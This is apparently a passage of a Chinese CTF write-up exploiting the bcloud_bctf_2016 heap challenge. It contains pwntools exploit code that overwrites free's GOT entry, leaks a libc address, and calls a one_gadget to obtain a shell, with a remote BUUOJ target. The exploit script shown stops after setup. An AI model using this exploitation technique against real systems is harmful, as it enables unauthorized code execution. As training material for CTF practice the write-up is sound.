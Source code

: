 此时chunk_1存放free_got地址，编辑chunk_1，将free_got改为puts_plt函数地址

	delete(2)
	dbg()
free（chunk_2），相当于puts(__libc_start_main_got)，泄露__libc_start_main_got地址，得到libc基地址，得到one_gadget地址

![在这里插入图片描述](https://img-blog.csdnimg.cn/b76b20fceb8840b9a7404d1bd7fc1c8b.png)

	#本地
	one_gadget = [0x3ac3c,0x3ac3e,0x3ac42,0x3ac49,0x5faa5,0x5faa6]
	libc = ELF('/home/pwn/tools/glibc-all-in-one/libs/2.23-0ubuntu3_i386/libc-2.23.so')
	#buu远程
	#one_gadget = [0x3a80c,0x3a80e,0x3a812,0x3a819,0x5f065,0x5f066]
	#libc = ELF('../../libc-2.23.so--32')
	libc_base = __libc_start_main_addr - libc.sym['__libc_start_main']
	onegadget = one_gadget[3] + libc_base

再次编辑chunk__1将puts函数地址改为one_gadget地址，free（chunk_1）执行exeve("/bin/sh\x00")，获得shell。

		delete(1)
		itr()
		
![在这里插入图片描述](https://img-blog.csdnimg.cn/4ff3bf69a7f545dc9c4a1fbee817d3b1.png)
### exp 
 	
 	from pwn import *
	from LibcSearcher import *
	context(endian='little',os='linux',arch='i386',log_level='debug') #小端序，linux系统，64位架构,debug
	#定义gdb调试函数
	def dbg():
	        gdb.attach(sh)
	        pause()
	#命令简写化
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims, drop=True  :sh.recvuntil(delims, drop)
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))
	
	sh = process('./bcloud_bctf_2016')
	#sh = remote('node4.buuoj.cn',26937)
	
	elf = ELF('./bcloud_bctf_2016')
	puts_plt = elf.plt['puts']
	__libc_start_main_got = elf.got['__libc_start_main']
	free_got = elf.got['free']
	heap_array = 0x0804B120
	 